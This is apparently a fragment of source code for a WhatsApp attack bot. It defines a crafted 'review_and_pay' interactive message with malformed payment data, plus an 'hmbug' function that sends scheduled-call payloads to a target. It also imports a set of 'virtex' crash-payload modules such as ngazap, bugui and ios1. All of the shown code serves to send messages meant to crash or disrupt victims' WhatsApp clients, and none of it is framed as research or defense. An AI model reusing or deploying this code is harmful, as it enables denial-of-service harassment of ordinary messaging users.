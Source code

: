 const force = {
key: {
participant: `0@s.whatsapp.net`,
...(m.chat ? {
remoteJid: ""
} : {})
},
'message': {
"interactiveMessage": { 
"header": {
"hasMediaAttachment": true,
"jpegThumbnail": ``
},
"nativeFlowMessage": {
"buttons": [
{
"name": "review_and_pay",
"buttonParamsJson": `{\"currency\":\"IDR\",\"total_amount\":{\"value\":49981399788,\"offset\":100},\"reference_id\":\"4OON4PX3FFJ\",\"type\":\"physical-goods\",\"order\":{\"status\":\"payment_requested\",\"subtotal\":{\"value\":49069994400,\"offset\":100},\"tax\":{\"value\":490699944,\"offset\":100},\"discount\":{\"value\":485792999999,\"offset\":100},\"shipping\":{\"value\":48999999900,\"offset\":100},\"order_type\":\"ORDER\",\"items\":[{\"retailer_id\":\"7842674605763435\",\"product_id\":\"7842674605763435\",\"name\":\"! BY - THEZETSUBOXYGEN \",\"amount\":{\"value\":9999900,\"offset\":100},\"quantity\":7},{\"retailer_id\":\"custom-item-f22115f9-478a-487e-92c1-8e7b4bf16de8\",\"name\":\"\",\"amount\":{\"value\":999999900,\"offset\":100},\"quantity\":49}]},\"native_payment_methods\":[]}`
}
]
}
}
}
}





//===========°
const hmbug = async (target, txt) => {
  await sleep(300);
  var etc = {
    scheduledCallCreationMessage: {
      callType: 2,
      scheduledTimestampMs: Date.now() + 86400000, // trigger
      title: txt
    }
  }
  zetsubo.reply(target, etc, {})
  await sleep(300);
}

//VIRTEX 
const { ngazap } = require('./zetszet/virtex/ngazap')
const { buttonkal } = require('./zetszet/virtex/buttonkal')
const { jids1 } = require('./zetszet/virtex/jids1')
const { jids0 } = require('./zetszet/virtex/jids0')
const { cttl } = require('./zetszet/virtex/cttl')
const { tizi } = require('./zetszet/virtex/tizi')
const { weg } = require('./zetszet/virtex/weg')
const { virtex7 } = require('./zetszet/virtex/virtex7')
const { bugui } = require('./zetszet/virtex/bugui.js')
const { bugui2 } = require('./zetszet/virtex/bugui2.js')
const { monospace } = require('./zetszet/virtex/monospace.js')
const { bugcapt } = require('./zetszet/virtex/bugcapt.js')
const { ios1 } = require('./zetszet/virtex/ios1.js')
const { ios2 } = require('./zetszet/virtex/ios2.js')
const { cortanet } = require('./zetszet/virtex/cortanet.js')
